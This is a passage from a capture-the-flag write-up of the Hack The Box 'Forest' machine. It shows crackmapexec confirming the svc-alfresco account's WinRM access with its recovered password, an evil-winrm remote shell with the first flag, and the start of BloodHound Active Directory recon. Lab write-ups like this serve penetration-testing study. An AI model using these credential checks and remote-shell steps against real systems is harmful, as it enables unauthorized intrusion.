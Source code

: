 ```bash
$ crackmapexec winrm 10.129.95.210 -u svc-alfresco -p s3rvice -d htb.local
HTTP        10.129.95.210   5985   10.129.95.210    [*] http://10.129.95.210:5985/wsman
WINRM       10.129.95.210   5985   10.129.95.210    [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

As we can see the **svc-alfresco** can *PS-Remote* to **forest.htb.local**. [PS-Remote](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm) means we can use WinRM, a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP, to remotely administer the machine from PowerShell.

**Note:** The WinRM ports (5985/TCP and 5986/TCP) didn't show up while scanning the machine, but they are actually open. Again, this is due to the fact that, by default, Nmap only scans the 1000 most common TCP ports and WinRM ports are probably not part of them.
{: .notice--info}

From a Linux machine, we can use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), a Ruby tool that implements Microsoft WS-Management Protocol, and the recovered account to connect to the remote machine.

```bash
$ evil-winrm -i 10.129.95.210 -u svc-alfresco  -p s3rvice 
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir ../Desktop


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         2/4/2022   9:24 AM             34 user.txt
```

Nice, we have a remote shell access and the **first flag**.


# Privilege Escalation

According to the MITRE, [Privilege Escalation](https://attack.mitre.org/tactics/TA0004/) consists of techniques that adversaries use to gain higher-level permission on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permission to follow through on their objectives. Common approaches are to take advantage of system weaknesses, misconfigurations, and vulnerabilities.

Let's start with Active Directory reconnaissance to see if we can find an attack path.

## Active Directory Recon

With a valid account, we can now use one of the [BloodHound](https://github.com/BloodHoundAD/BloodHound) ingestors and gather more information about the Active Directory. BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory or Azure environment. 
